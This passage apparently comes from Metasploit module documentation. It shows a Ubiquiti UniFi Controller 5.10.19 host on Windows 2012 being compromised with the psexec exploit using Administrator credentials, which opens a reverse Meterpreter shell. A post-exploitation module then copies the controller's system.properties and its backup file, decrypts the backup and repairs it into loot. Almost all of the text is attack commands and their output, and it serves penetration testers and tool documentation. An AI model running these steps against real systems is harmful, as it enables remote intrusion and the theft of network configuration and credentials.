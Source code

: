 ```
2.2.2.2                 ubiquiti.unifi.backup_decrypted_repaired  5.10.19.unf.zip                                               application/zip  Ubiquiti Unifi Controller Backup Zip                   /root/.msf4/loot/20190310155836_default_2.2.2.2_ubiquiti.unifi.b_271407.zip
```

### Ubiquiti Unifi Controller 5.10.19 (Build: atag_5.10.19_11646) on Windows 2012

#### Initial Access

```
[*] Processing unifi.rb for ERB directives.
resource (unifi.rb)> use exploit/windows/smb/psexec
resource (unifi.rb)> set smbpass Password123
smbpass => Password123
resource (unifi.rb)> set smbuser Administrator
smbuser => Administrator
resource (unifi.rb)> set rhosts 4.4.4.4
rhosts => 4.4.4.4
resource (unifi.rb)> run
[*] Started reverse TCP handler on 1.1.1.1:4444 
[*] 4.4.4.4:445 - Connecting to the server...
[*] 4.4.4.4:445 - Authenticating to 4.4.4.4:445 as user 'Administrator'...
[*] 4.4.4.4:445 - Selecting PowerShell target
[*] 4.4.4.4:445 - Executing the payload...
[+] 4.4.4.4:445 - Service start timed out, OK if running a command or non-service executable...
[*] Sending stage (179779 bytes) to 4.4.4.4
[*] Meterpreter session 3 opened (1.1.1.1:4444 -> 4.4.4.4:61034) at 2019-03-10 15:58:32 -0400

meterpreter > background
[*] Backgrounding session 3...
```

#### Module

```
resource (unifi.rb)> use post/multi/gather/ubiquiti_unifi_backup
resource (unifi.rb)> set verbose true
verbose => true
resource (unifi.rb)> set session 3
session => 3
resource (unifi.rb)> run
[*] File C:\Users\Administrator\Ubiquiti UniFi\data\system.properties saved to /root/.msf4/loot/20190310155838_default_4.4.4.4_ubiquiti.system._035659.txt
[+] Read UniFi Controller file C:\Users\Administrator\Ubiquiti UniFi\data\system.properties
[+] Found backup folder: C:\Users\Administrator\Ubiquiti Unifi\data\backup
[+] File C:\Users\Administrator\Ubiquiti Unifi\data\backup/5.10.19.unf saved to /root/.msf4/loot/20190310155839_default_4.4.4.4_ubiquiti.unifi.b_024488.unf
[+] File 5.10.19.unf DECRYPTED and saved to /root/.msf4/loot/20190310155839_default_4.4.4.4_ubiquiti.unifi.b_661494.zip.  File needs to be repair via `zip -FF`
[*] Attempting to repair zip file (this is normal)
[+] File C:\Users\Administrator\Ubiquiti Unifi\data\backup/5.10.19.unf DECRYPTED and REPAIRED and saved to /root/.msf4/loot/20190310155839_default_4.4.4.4_ubiquiti.unifi.b_212269.zip.
[*] Post module execution completed
[*] Starting persistent handler(s)...
```
